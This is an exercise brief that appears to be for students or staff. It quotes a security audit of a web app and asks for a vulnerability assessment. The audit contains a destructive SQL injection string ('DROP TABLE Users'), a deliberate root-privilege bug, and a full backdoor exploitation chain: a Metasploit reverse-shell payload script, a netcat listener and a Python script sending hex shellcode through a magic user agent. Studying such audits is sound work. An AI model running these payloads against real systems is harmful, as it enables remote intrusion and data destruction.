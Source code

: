 # Software Security Audit

## Objective
Someone online has done a software security audit of the source we based out web app on.  In short, they found some major issues.  The report was pulled from a Wordpress blog to out company wiki and is shown below.  Go over the vulnerabilities in the audit and write a detailed report about whether or not your web app is vulnerable to the issues mentioned.  Include details about any mitigations that were taken to prevent the issues mentioned in the audit.  If our web app is vulnerable include details for how could mitigate the attack and a work estimate (guestimate of hours, days, or weeks) of how long it would take to fix the issue(s).

## Web App Vulnerabilities and Exploits

### SQL Injection on Forms
Drop Users table by entering statement below in the "username" field of the login form.  SQL injection appears likely on other forms as well.

`test'; DROP TABLE Users;#`

Note other SQL injections are possible aside from the example above.

### Reflective XSS
TODO

### Plaintext Database Password Entries
TODO

### Database Dump
Using the libunwind library is used to recover from crashes and dumps the contents of the database on a crash.  Additionally the log_status "feature" (or malware?) causes a crash on average 1/1000 page requests.

    if ((rand() % 1000) == 0) {
        log_stats(stderr, DISPATCH, LOG_LEVEL_DEFAULT);
    }

### Privilige Escalation
The following lines are an accidental or sneaky attempt to make the application run as root.  The if condition actually sets the uid instead of checking it.  A valid check would utilize "==" not "=".
        
	int uid = (int) geteuid();
	if(uid = 0){
		// never run webapp as root, its a security risk
		uid = 1;
	}
	// set uid to non-root user
	setuid(uid);
	seteuid(uid);

### Known Session Identifiers
Cookies utilize poor session management.  Authorization could be bypassed by setting the Cookie "Authorized" field to "yes".  Additionally session names are just the names of user accounts and can be easily guessed by attackers, which could result in privilege escalation attacks.

### Hidden Backdoor
If a POST request is made with the user agent "asn_roodkcab" ("nsa_backdoor" spelled backwards) the string value of the "data" parameter is decoded as ASCII hex to binary and run in executable memory.  This was tested using metasploit to generate a reverse shell payload and sent with a python script to activate remotely.  Sample scripts below.  A demo video of the attack is available [Here](TODO).

Generate your shellcode payload.  Sample script to generate payload with metasploit on Kali shown below.  Depending on target machine OS and architecture some changes may need to be made.  This was tested on a target machine running Ubuntu 12.04 LTS 64 bit.

	#!/bin/bash
	clear
	echo -e "Enter attacker machine IP:  \c"
	read IP
	echo -e "Enter port: \c"
	read port
	msfpayload linux/x64/shell_reverse_tcp LHOST=$IP LPORT=$port R | msfencode -b "\x00\x0a\x0b\x0c\x0d" -t c -e x64/xor >> payload
	echo "Finished"
	ls -la payload

On attacking machine setup the reverse shell listener with netcat (set port to the port you want to listen on, example here is port 447):

`run nc -nvvlp 447`

Edit script with the proper IP address or URL of the victim machine and the Hex encode payload you generated in the previous step (note you will need to do some Find/Replace to get it formatted correctly).  Then on the attacking machine run:

	#!/usr/bin/python
	import urllib
	import urllib2
	
	# replace with target machine IP or URL
	url = 'http://192.168.1.154/webapp'
	
	# replace with your target specific shell code
	# note shellcode should be HEX encode without seperating charcters
	values = {'data' : '4831C94881E9F6FFFFFF488D05EFFFFFFF48BBF0C671726F32CBE248315827482DF8FFFFFFE2F49AEF29EB05309488F1987E7727A5835BF2C670CDAF9ACAD5A18EF89405229188DA9E7E77053195AA0F081B53373DCE9706AC4A2AF67A70CD92AF1F5D1C5ACBB1B84F9620387A4204FFC371726F32CBE2'}
	
	headers = { 'User-Agent' : 'asn_roodkcab' }
	
	data = urllib.urlencode(values)
	req = urllib2.Request(url, data, headers)
	response = urllib2.urlopen(req)
	page = response.read()
	
	print page
